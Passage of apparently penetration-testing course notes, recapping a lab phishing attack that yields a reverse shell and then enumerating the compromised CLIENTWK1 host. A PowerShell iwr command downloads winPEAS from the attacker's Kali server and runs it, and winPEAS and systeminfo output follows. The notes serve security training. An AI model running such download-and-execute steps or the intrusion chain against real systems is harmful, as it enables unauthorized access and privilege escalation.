 Let's briefly summarize what we did in this section
+ First, we set up our Kali machine to provide the necessary services and files for our attack
+ Then, we prepared a Windows Library and shortcut file on WINPREP
+ Once we sent our email with the attachment, we received an incoming reverse shell from CLIENTWK1 in the internal network

## Enumerating the Internal Network
In the previous Learning Unit, we obtained an initial foothold on the CLIENTWK1 machine
+ Because we have no information about the local system or the internal network yet, we have to gather information on both
+ We'll first enumerate CLIENTWK1 and then the Active Directory environment
+ Our goal is to identify potential lateral movement vectors or ways to elevate our privileges

### Situational Awareness
In this section, we'll attempt to gain situational awareness on the CLIENTWK1 system and the internal network
+ First, we'll perform local enumeration on CLIENTWK1 to obtain an overview of the system and identify potentially valuable information and data
+ Then, we'll enumerate the domain to discover users, computers, domain administrators, and potential vectors for lateral movement and privilege escalation
+ For this Learning Unit, we'll not explicitly store every result in our workspace directory on Kali
	+ However, to get used to the documenting process you should create notes of all findings and information while following along

Let's start with enumerating the CLIENTWK1 machine
+ Let's copy the 64-bit winPEAS executable to the directory served by the Python3 web server
+ On CLIENTWK1, we'll change the current directory to the home directory for _marcus_ and download _winPEAS_ from our Kali machine
+ Once downloaded, we'll launch it 
```
PS C:\Windows\System32\WindowsPowerShell\v1.0> cd C:\Users\marcus
cd C:\Users\marcus

PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.119.5:8000/winPEASx64.exe -Outfile winPEAS.exe

PS C:\Users\marcus> .\winPEAS.exe
.\winPEAS.exe
...
```

Let's review some of the results provided by winPEAS
+ We'll start with the _Basic System Information_ section
```
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    Hostname: CLIENTWK1
    Domain Name: beyond.com
    ProductName: Windows 10 Pro
    EditionID: Professional
```
+ Above shows that winPEAS detected CLIENTWK1's operating system as Windows 10 Pro
+ As we have learned in the course, winPEAS may falsely detect Windows 11 as Windows 10, so let's manually check the operating system with **systeminfo**:
```
PS C:\Users\marcus> systeminfo
systeminfo

Host Name:                 CLIENTWK1
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22000 N/A Build 22000
```
+ Indeed, Windows 11 is the operating system on CLIENTWK1